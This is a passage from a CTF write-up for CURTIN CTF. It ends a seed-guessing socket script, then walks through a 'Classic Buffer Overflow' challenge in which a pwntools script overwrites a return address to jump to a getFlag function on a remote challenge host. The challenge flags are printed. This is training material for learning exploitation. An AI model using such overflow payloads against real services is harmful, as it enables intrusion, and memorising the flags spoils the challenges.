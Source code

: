 ```
        congrats = recv_until(s, "Congratulations you got it right!")
        print(congrats)
        if "Congratulations you got it right!" in congrats:
            print("Yay or Nay?")
            return

if __name__ == "__main__":
    while True:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            try:
                s.connect((addr, port))
                ncThisPlis(s)
            except Exception as e:
                print(f"Error Bang, Pinjam seratus: {e}")
```

![105](https://raw.githubusercontent.com/plnsgr/os1ris/main/CURTIN%20CTF/images/image105.png)

Now if the seed is correct. We get the flag

```
Flag: CURTIN_CTF{7H3_F1RS7_P53UD0}
```

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
### Classic Buffer Overflow

(Author: OS1RIS)

![106](https://raw.githubusercontent.com/plnsgr/os1ris/main/CURTIN%20CTF/images/image106.png)

Open the challenge as radare2 (Can use anything gdb also fine as long as it have address)

![107](https://raw.githubusercontent.com/plnsgr/os1ris/main/CURTIN%20CTF/images/image107.png)

Some interesting function ‘sym.getFlag’ it could be a flag function.

![108](https://raw.githubusercontent.com/plnsgr/os1ris/main/CURTIN%20CTF/images/image108.png)

Looking at the getFlag function the address 0x004011e9 will locate the flag.txt.
Now we get the address. Proceed with calling the getFlag.

![109](https://raw.githubusercontent.com/plnsgr/os1ris/main/CURTIN%20CTF/images/image109.png)

```
from pwn import *
context.bits=64
e = ELF('./challenge.bin')
#p=process(e.path)
p=remote('3.26.44.175',3336)
overwrite=b"A"*40
addr=0x004011d6 #address from getFlag
payload=overwrite
payload+=p64(addr)
p.sendline(payload)
p.interactive()
```
